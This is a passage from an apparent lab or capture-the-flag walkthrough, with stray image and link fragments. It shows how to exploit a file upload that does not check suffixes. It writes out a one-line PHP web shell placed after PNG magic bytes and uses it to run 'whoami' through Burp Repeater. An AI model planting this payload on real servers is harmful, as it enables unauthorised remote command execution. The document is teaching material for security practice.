




{kind=link}
.html){kind=link}
.html){kind=link}
.html){kind=link}
--edit_this_torrent-change_screenshot.html){kind=link}
--Repeater_simple_php_code_injection.html){kind=link}
--Repeater_simple_php_code_injection--wget_tcp_pty_handler.html){kind=link}
--Repeater_simple_php_code_injection--reverse_shell.html){kind=link}
Repeater simple php code injection
now we're going to take advantage of the server's poor file suffix sanitation check and upload a cmd.php and simply append a php command execution script at the very end of our .png magic byte sequence in order to trick the server into uploading our file to its /upload directoryin repeater we tweak 2 things: our filename
and our picture metadata to add <?php echo system($_REQUEST[st0ve]); ?> to allow Remote code execution once we visit the uploaded file


since the uploader doesn't check for file suffixes we can use what're known as ‘magic bytes’ which are the first line or two of special characters linux uses to decipher file types

navigating to our .php file and setting our st0ve parameter to whoami yields:

command execution!

intercepting the web request on burp suite is a little easier to work with:
